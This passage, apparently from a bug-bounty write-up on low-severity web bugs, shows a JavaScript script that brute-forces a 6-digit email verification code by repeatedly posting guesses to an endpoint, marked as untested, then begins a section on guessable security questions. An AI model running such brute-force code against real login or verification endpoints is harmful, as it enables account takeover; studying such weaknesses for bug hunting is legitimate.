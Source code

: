 ``` Javascript
// Function to send a verification request
async function sendRequest(code) {
    try {
        const response = await axios.post(url, {
            email: email,
            code: code
        });
        console.log(`Attempting code: ${code}`);
        console.log(`Status Code: ${response.status}`);
        if (response.status === 200) {
            console.log('Correct code found:', code);
            return true;
        }
    } catch (error) {
        if (error.response && error.response.status === 401) {
            console.log(`Attempting code: ${code}`);
            console.log('Incorrect code.');
        } else {
            console.log('Error:', error.message);
        }
    }
    return false;
}

// Main function to brute force the verification code
async function bruteForce() {
    let found = false;
    while (!found) {
        const code = generateCode();
        found = await sendRequest(code);
    }
}

bruteForce();

```


This script uses the `axios` library to send POST requests to the verification endpoint with different 6-digit codes. It checks the response status code to determine if the code is correct. If the response status is 200, it means the correct code has been found.


**! NOT TESTED YET!**

## Other P4 bugs:
# 1. Security Questions with Easily Guessable Answers

- Scenario: A website uses security questions for password recovery, such as “What is your mother’s maiden name?” or “What is the name of the street you grew up on?” Such questions might be easy for an attacker to guess or find through social media or other public records.
